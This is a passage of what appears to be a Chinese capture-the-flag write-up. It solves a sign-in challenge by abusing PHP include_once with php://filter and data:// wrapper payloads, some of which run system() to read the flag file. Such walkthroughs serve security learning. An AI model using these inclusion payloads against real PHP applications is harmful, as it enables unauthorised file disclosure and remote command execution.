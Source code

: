 得到flag

------

### 签到题

扫面后台

![image-20240124130114762](image/image-20240124130114762.png)

打开第一个

![image-20240124130125383](image/image-20240124130125383.png)

发现代码

```
include_once
```

会直接执行命令，可以构造一下php伪协议

关于php为协议https://blog.csdn.net/cosmoslin/article/details/120695429

```
常用的几个
php://filter/read=convert.base64-encode/resource=index.php
php://filter/resource=index.php


适用于include（$参数）

data:text/plain,<?=system("tac fla*");?>

data伪协议的格式:

data://text/plain;base64,

data:资源类型(MIME类型);编码,内容


    
1.c=data://text/plain,<?php system("cat fla*");?>
读flag
```